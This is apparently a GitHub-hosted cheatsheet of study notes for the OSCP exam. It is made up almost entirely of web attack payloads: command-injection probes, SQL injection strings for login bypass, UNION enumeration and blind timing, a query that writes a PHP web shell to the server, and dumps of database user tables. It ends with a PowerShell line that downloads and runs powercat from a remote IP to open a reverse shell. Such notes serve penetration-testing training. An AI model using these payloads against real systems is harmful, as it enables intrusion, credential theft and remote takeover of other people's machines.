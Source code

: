 # OSCP-Notes
Cheatsheet/Notes from PEN-200 Learning Platform for the OSCP Exam
Web App Pentest
  D
    Command Injection
      Check if CMD or PowerShell we have:
        (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
      PowerCat for Reverse shell. first copy to local dir: 
        cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .


  SQLi
    MySQL:
      connect to mysql remotely:
        mysql -u <user> -h <ip> -P 3306 -p;
      commands after connection:
        show databases;
        select version();
        show tables in mysql;
        select * from mysql.user;
        select * from mysql.user where user = 'username';
    MSSQL:
      connect:
        impacket-mssqlclient <user>:<pass>@<ip> -windows-auth
      commnads:
        select @@version;
        select name from sys.databases;
        select * from <db_name>.information_schema.tables;
        select * from master.dbo.sysusers;

    Injections: 
      offsec' OR 1=1 -- //
      if above successful:
            ' or 1=1 in (select @@version) -- //
    UNION injections:
      first get number of columns (increase number by 1):
        ' ORDER BY 1-- //
        ' UNION SELECT null, null, database(), user(), @@version  -- //
        ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
      shell with Union
        ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

    Time Based Blind SQL:
      ' AND IF (1=1, sleep(3),'false') -- //



Download and execute in PowerShell:
  IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
